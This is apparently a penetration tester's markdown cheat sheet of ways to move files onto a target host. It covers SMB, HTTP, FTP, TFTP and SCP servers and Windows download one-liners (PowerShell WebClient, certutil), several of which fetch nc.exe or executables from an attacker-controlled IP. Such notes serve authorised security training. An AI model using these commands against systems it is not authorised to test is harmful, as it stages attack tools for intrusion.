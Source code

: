 # File Transfers
## SMB Server
-> Setting
```bash
impacket-smbserver share . -smb2support -user user -password teste321
```
-> Transfer
```powershell
net use \\<smbserver>\share /USER:user teste321
copy \\<smbserver>\share\nc.exe .
```

## HTTP
-> start a web server
```bash
python -m SimpleHTTPServer 80
service apache2 start
```

-> Windows - file download
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>/file.exe','C:\Users\user\Desktop\file.exe')"
iwr -uri http://<IP>/file -Outfile file
wget http://<IP>/file -O file
curl http://<IP>/file -o file
certutil -urlcache -f http://<IP>:803/ok.exe ok.exe  
```

-> Linux - file download
```bash
wget http://<IP>/file
curl http://<IP>/file > file
```

## Pure-FTPd
-> Install and Configure
```bash
sudo apt update && sudo apt install pure-ftpd
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

-> Transfer
```powershell
echo open <IP> 21 > ftp.txt
echo USER user>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```powershell
ftp -v -n -s:ftp.txt
```

## TFTP (Trivial File Transfer Protocol)
-> Install and Configure
```bash
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

-> Transfer
```powershell
tftp -i <IP> get file
```

## SCP (Secure File Copy)
```
scp file <user>@<IP>:/home/user/
```
